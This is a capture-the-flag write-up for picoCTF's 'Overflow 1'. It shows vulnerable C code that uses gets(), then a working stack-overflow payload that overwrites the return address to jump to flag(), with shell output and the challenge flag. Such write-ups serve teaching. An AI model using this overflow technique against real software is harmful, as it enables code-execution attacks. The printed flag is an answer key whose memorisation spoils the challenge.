 
# Binary Exploitation - Overflow 1 (150 points)

## Challenge

*You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this program? You can find it in /problems/overflow-1_5_c76a107db1438c97f349f6b2d98fd6f8 on the shell server. Source.*

![Challenge](../_images/binary_exploitation_overflow_1_challenge.png)

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);

  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Give me a string and lets see what happens: ");
  vuln();
  return 0;
}
```

## Flag

picoCTF{n0w_w3r3_ChaNg1ng_r3tURn532066483}

## Walkthrough

The function void `void vuln()` is vulnerable to a buffer overflow because of a call to `gets()` (no boundaries) rather than `fgets()` (which read only a limited number of char). 

```C
void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
  [...]
}
```

The function also gives us the return address of the next instruction in `main()` :

```C
void vuln(){
  [...]
  printf("Woah, were jumping to 0x%x !\n", get_return_address());
}
```

```Bash
m3oow@pico-2019-shell1:/problems/overflow-1_5_c76a107db1438c97f349f6b2d98fd6f8$ ./vuln
Give me a string and lets see what happens: 
plop
Woah, were jumping to 0x8048705 !
```

Our goal here is to modify the return value (aka: the EIP register value) to execute the `flag()` function rather than returning in `main()`. To do this, we need the address of `flag()`. Using for example edb-debugger and its function finder:

![edb](../_images/binary_exploitation_overflow_1_edb.png)

So `flag()` is at address 0x080485e6.

So all we have to do is to perform a big and dirty buffer overflow to write the adress of `flag()` at the return address of `vuln()`:

```bash
m3oow@pico-2019-shell1:/problems/overflow-1_5_c76a107db1438c97f349f6b2d98fd6f8$ (echo -en "\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08\xe6\x85\x04\x08"; cat -) | ./vuln
Give me a string and lets see what happens: 

Woah, were jumping to 0x80485e6 !
picoCTF{n0w_w3r3_ChaNg1ng_r3tURn532066483}picoCTF{n0w_w3r3_ChaNg1ng_r3tURn532066483}picoCTF{n0w_w3r3_ChaNg1ng_r3tURn532066483}picoCTF{n0w_w3r3_ChaNg1ng_r3tURn532066483}
Segmentation fault (core dumped)
```
